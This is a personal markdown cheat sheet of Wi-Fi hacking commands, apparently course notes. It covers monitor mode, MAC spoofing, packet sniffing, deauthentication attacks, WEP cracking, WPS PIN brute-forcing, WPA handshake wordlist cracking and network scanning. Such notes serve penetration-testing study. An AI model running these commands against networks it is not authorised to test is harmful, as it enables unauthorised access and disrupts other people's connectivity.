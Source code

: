 # dump
Contains non relevant info that I wanna dump


## Table of Content
1. Network Hacking
    1. Pre-connection Attack
    1. Gaining Access
    1. Post-connection Attack
1. Gaining Access
1. Post exploitation
1. Website Hacking 
---

```
iwconfig : Gived info about wireless adapter
ifconfig [interface name] down/up : Make the interface up/down
airmon-ng check kill
iwconfig [interface-name] mode monitor : Changes wireless mode from managed to monitor
ifconfig [interface-name] hw ether [Your_Desired_MAC_Adress]
```

### airodump-ng : Used by wireless interface in monitor mode to capture packet
```
airodump-ng [interface-name] : Sniffs all the wireless network around with their protection level(Open/WEP/WPA/WPA2) and other critical info

airodump-ng --band [a,b,g,n] [interface-name] : capture packet in band specified

airodump-ng --bssid [bssid] --channel [channel number] --write [filename] [interface-name]

aireplay-ng --deauth  100000 -a [access mac] -c [client mac] [interface-name] : Disable a user from using wi-fi
```

### aircrack-ng : Used to crack WEP(IV + key) 
```
aircrack-ng [cap-file-name]
```

### aireplay-ng : Used to generate fake traffic. It comes handy if target wifi is not generating enough traffic
```
aireplay-ng --fakeauth 0 -a [mac-of-AP] -h [mac-of wireless-adapter] [interface-name] : For assocaiation
aireplay-ng --arpreplay  -b [mac-of-AP] -h [mac-of wireless-adapter] [interface-name]
```

### Cracking WPA/WPA2
Only difference in encrption used for message integrity
WPA: TKIP
WPA2: CCMP

WPS: Can be exploited. It was designed to simplify connecting to wireless. Only way to prevent against this is enabling PBC(Push button connect)

```
wash --interface [interface-name] : Shows all the wifi with wps enabled
reaver --bssid [bssid] --channel [channel number] --interface [interface-name] -vvv --no-associate : Bruteforce 8 bit WPS pin which is then used to compute WPA Passkey
```

#### Wordlist Attack
```
MIC of handshake + word list 
aircrack-ng [handshake-capture-file]-w [wordlist] 
```
---
#### Creating Wordlist
crunch [min] [max] [character] -t [pattern] -o [filename]


---
### NetDiscover and Nmap
```
netdiscover -r [range-of-ip] : IPs and Vendor of devices connected to the same network
```

Nmap: Gives information about open port, operating system and running services.
Zenmap: GUI warpper over Nmap